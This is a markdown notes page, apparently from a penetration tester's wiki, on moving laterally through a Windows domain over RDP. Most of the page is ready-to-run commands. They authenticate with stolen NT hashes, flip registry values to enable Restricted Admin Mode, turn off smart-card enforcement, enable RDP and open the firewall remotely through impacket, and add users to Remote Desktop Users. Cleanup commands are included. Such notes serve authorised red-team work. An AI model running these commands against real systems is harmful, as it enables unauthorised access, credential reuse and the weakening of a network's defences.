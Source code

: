 ```yaml
---
title: RDP Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/rdp]].

Connect over RDP.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:john.doe@corp.local /p:'passw0rd' /v:srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    mstsc.exe /v:srv01.corp.local
    ~~~

> **Note:** RDP works over Chisels SOCKS proxy, but not over Sliver.

Untested tools:

- [evilrdp](https://github.com/skelsec/evilrdp)

# Pass the Hash

[[notes/ad/pass-the-hash]] to RDP does not work by default because RDP requires interactive logon.
However it is possible to switch RDP to network logon by enabling *Restricted Admin Mode*.
Unfortunately this introduces the infamous [[notes/ad/double-hop-problem]].
It can be configured by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` to `0`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin -Value 0
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ~~~

Authenticate with a NT hash.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:jdoe@corp.local /pth:$nthash /v:srv01.corp.local
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\\srv01.corp.local\HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
    ~~~

# Kerberos Authentication

Authenticate over Kerberos.

=== "[[notes/tools/aardwolfgui]]"
    ~~~ bash
    aardpclient 'rdp+kerberos-password://corp\jdoe:passw0rd@srv01.corp.local/?dc=dc01.corp.local'
    ~~~

Kerberos support in `rdesktop` seems to be incomplete.
`crackmapexec` should support it, but currently throws an exception.
`aardwolf` does support it, but doesn't implement dynamic resolution and shared folders yet.

[[notes/ad/pass-the-ticket]] to RDP works only if *Remote Credential Guard* is enabled, because otherwise it requires an interactive logon.

References:

- [twitter.com/Defte_/status/1707370420515553356](https://twitter.com/Defte_/status/1707370420515553356), recompile [[notes/tools/freerdp]] with `WITH_GSSAP` for Kerberos support
- [Abusing RDPs Remote Credential Guard with Rubeus PTT](http://web.archive.org/web/20230216004623/https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

# Certificated-based Authentication

a) With PKINIT ([source](https://mobile.twitter.com/an0n_r0/status/1560699394365673472))

- install `pcsd`
- install [vpcd](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html) as virtual smartcard reader
- install [OpenSC](https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv) as virtual smartcard
- upload your certificate into the virtual smartcard with [yubico-piv-tool](https://developers.yubico.com/yubico-piv-tool/)
- run `xfreerdp /smartcard`

b) [[notes/ad/unpac-the-hash]]

Maybe you need to disable the smart card requirement first by setting the [[notes/windows/registry]] key `HKLM\Software\Microsoft\Windows\CurrentVersion\policies\System\scforceoption` to `0`.

# Enable RDP

Enable RDP by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` to `0` and open the firewall.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections -vt REG_DWORD -vd 0
    impacket-wmiexec -k -no-pass -nooutput srv01.corp.local 'netsh advfirewall firewall set rule group="remote desktop" new enable=yes'
    ~~~

=== "PowerShell"
    ~~~ powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name fDenyTSConnections -Value 0
    Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
    Get-Service termservice
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
    sc.exe query termservice
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
    ~~~

Allow an unprivileged user to login over RDP.

~~~ bat
net.exe localgroup "Remote Desktop Users" jdoe /add
net.exe localgroup Remotedesktopbenutzer jdoe /add
~~~
